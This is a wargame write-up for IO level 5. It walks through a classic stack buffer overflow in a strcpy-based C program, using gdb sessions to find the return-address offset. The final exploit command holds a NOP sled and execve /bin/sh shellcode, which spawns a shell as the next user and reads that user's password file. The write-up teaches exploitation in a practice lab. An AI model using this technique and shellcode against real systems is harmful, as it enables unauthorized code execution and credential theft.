 Let's check out the source code for this level:
```
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[128];

    if(argc < 2) return 1;

    strcpy(buf, argv[1]);

    printf("%s\n", buf);

    return 0;
}
```

This looks like a classic buffer overflow, only there's no function in the source code we can jump to that will give us a shell as level6. We'll have to supply our own shellcode this time to make it work. First we need to find how large of a buffer we need to overwrite the return address.
```
level5@io:/levels$ gdb -q level05
Reading symbols from /levels/level05...done.
(gdb) run $(python -c 'print "A"*140')
Starting program: /levels/level05 $(python -c 'print "A"*140')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7e98416 in _setjmp () from /lib/i386-linux-gnu/i686/cmov/libc.so.6
(gdb) run $(python -c 'print "A"*160')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level05 $(python -c 'print "A"*160')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

So it looks like 160 bytes was enough. Now we need to find the exact size.
```
(gdb) run $(python -c 'print "A"*148')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level05 $(python -c 'print "A"*144')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) run $(python -c 'print "A"*140 + "BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level05 $(python -c 'print "A"*140 + "BBBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now that we know how far to overwrite, let's try to see what registers point to our buffer.
```
(gdb) x/20xw $esp
0xbffffc30: 0x00000000  0xbffffcd4  0xbffffce0  0xb7fe0860
0xbffffc40: 0xb7ff6821  0x0177ff8e  0xb7ffeff4  0x0804820b
0xbffffc50: 0x00000001  0xbffffc90  0xb7fefc16  0xb7fffac0
0xbffffc60: 0xb7fe0b58  0xb7fceff4  0x00000000  0x00000000
0xbffffc70: 0xbffffca8  0xb77a6ac5  0x981e1cd5  0x00000000
(gdb) x/20xw $eax
0x0:    Cannot access memory at address 0x0
(gdb) x/20xw $ebx
0xb7fceff4: 0x00160d7c  0xb7fe0860  0xb7ff59b0  0xb7e84c26
0xb7fcf004: 0xb7e84c36  0xb7e84c46  0xb7e84c56  0xb7e84c66
0xb7fcf014: 0xb7e84c76  0xb7ee35d0  0x00000000  0x00000000
0xb7fcf024 <__fpu_control>: 0x0000037f  0x00000022  0x00000040  0x00000000
0xb7fcf034: 0x00000000  0x00000000  0x00000000  0x00000003
(gdb) x/20xw $ecx
0xbffffb68: 0xb7fcf4e0  0x08048524  0xbffffb84  0xb7fceff4
0xbffffb78: 0xbffffc28  0x08048409  0x08048524  0xbffffba0
0xbffffb88: 0xb7ffeff4  0xbffffc80  0xb7fffac0  0xbffffc54
0xbffffb98: 0xb7feb662  0x00000000  0x41414141  0x41414141
0xbffffba8: 0x41414141  0x41414141  0x41414141  0x41414141
(gdb) x/20xw $edx
0xb7fd0360: 0x00000000  0x00000000  0x00000000  0x00000000
0xb7fd0370: 0x00000000  0x00000000  0x00000000  0x00000000
0xb7fd0380: 0x00000000  0x00000000  0x00000000  0x00000000
0xb7fd0390: 0x00000000  0x00000000  0x00000000  0x00000000
0xb7fd03a0 <__malloc_initialize_hook>:  0x00000000  0x00000000  0x00000000  0x00000000
(gdb) i r
eax            0x0  0
ecx            0xbffffb68   -1073743000
edx            0xb7fd0360   -1208155296
ebx            0xb7fceff4   -1208160268
esp            0xbffffc30   0xbffffc30
ebp            0x41414141   0x41414141
esi            0x0  0
edi            0x0  0
eip            0x42424242   0x42424242
eflags         0x10296  [ PF AF SF IF RF ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
```

It doesn't look like we have anything really promising, let's try increasing the buffer size after we overwrite the return address and see if we get anything better.
```
(gdb) run $(python -c 'print "A"*140 + "BBBB" + "C"*100')
The program being debugged has been started already.
Start it from the beginning? (y or n) y   

Starting program: /levels/level05 $(python -c 'print "A"*140 + "BBBB" + "C"*100')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/20xw $esp
0xbffffbd0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbffffbe0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbffffbf0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbffffc00: 0x43434343  0x43434343  0x43434343  0x43434343
0xbffffc10: 0x43434343  0x43434343  0x43434343  0x43434343
```

That looks much better! Now we just need to jump to esp after we overwrite the return address. Based on what we see, the stack moves around a bit so we might need to make use of a NOP sled. So let's make the buffer something like:
```
["A"*140][stack address]["\x90"*100][shellcode]
```

The goal is basically to overwrite the return address with an address that will always contain our buffer so we have a NOP sled of 100 bytes so we will most likely land in the middle of it. Following the NOP sled is the shellcode that we will run into. The shellcode is from [here](http://shell-storm.org/shellcode/files/shellcode-827.php) and gives us a shell. The solution is shown below:
```
level5@io:/levels$ ./level05 $(python -c 'print "A"*140 + "\x10\xfc\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

...

sh-4.2$ whoami
level6
sh-4.2$ cat /home/level6/.pass
[Password for level6]
```
